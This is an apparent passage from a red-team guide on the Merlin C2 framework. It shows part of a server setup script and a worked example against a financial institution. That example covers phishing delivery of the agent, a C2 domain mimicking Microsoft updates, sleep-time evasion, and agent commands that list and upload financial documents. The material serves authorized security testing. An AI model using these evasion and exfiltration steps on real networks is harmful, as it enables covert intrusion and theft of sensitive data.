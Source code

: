 ```bash
./merlinServer-linux-x64
EOF
chmod +x "$OUTPUT_DIR/start_merlin_server.sh"

# Create server configuration information
cat > "$OUTPUT_DIR/server_config.txt" << EOF
Merlin Server Configuration
==========================

Server IP: $SERVER_IP
Server Port: $SERVER_PORT
Domains: ${DOMAINS[*]}

To start the server, run:
$OUTPUT_DIR/start_merlin_server.sh

Remember to:
1. Configure DNS records for the domains to point to $SERVER_IP
2. Set up appropriate redirectors or proxies if needed
3. Configure TLS certificates for the domains
EOF

echo "Merlin setup complete. Configuration saved to $OUTPUT_DIR/server_config.txt"
```

### Example: HTTP/2 C2 for Evasion

During a red team assessment of a financial institution with sophisticated network monitoring, we used Merlin to demonstrate effective command and control through their defenses:

1. **Infrastructure Setup**:
   ```bash
   # Set up Merlin server behind a redirector
   # Used legitimate TLS certificates from Let's Encrypt
   # Configured domain to mimic Microsoft update services
   ```

2. **Initial Access**:
   - Delivered Merlin agent through a targeted phishing campaign
   - Agent executed and established HTTP/2 connection to C2 server

3. **Evading Network Detection**:
   ```
   # On the target network, Merlin's HTTP/2 traffic blended with legitimate HTTPS
   # Used sleep parameters to reduce traffic frequency
   
   Merlin[agent/b72aef]» set SleepTime 300s
   Merlin[agent/b72aef]» set MaxRetry 10
   ```

4. **Data Collection and Exfiltration**:
   ```
   Merlin[agent/b72aef]» shell dir "C:\Users\Administrator\Documents\Financial Reports" /s

   # Located sensitive financial data
   
   Merlin[agent/b72aef]» upload "C:\Users\Administrator\Documents\Financial Reports\Q3_Earnings.xlsx"
   ```


 [Version]: 4.6.0 BC Security | [Web]: https://github.com/BC-SECURITY/Empire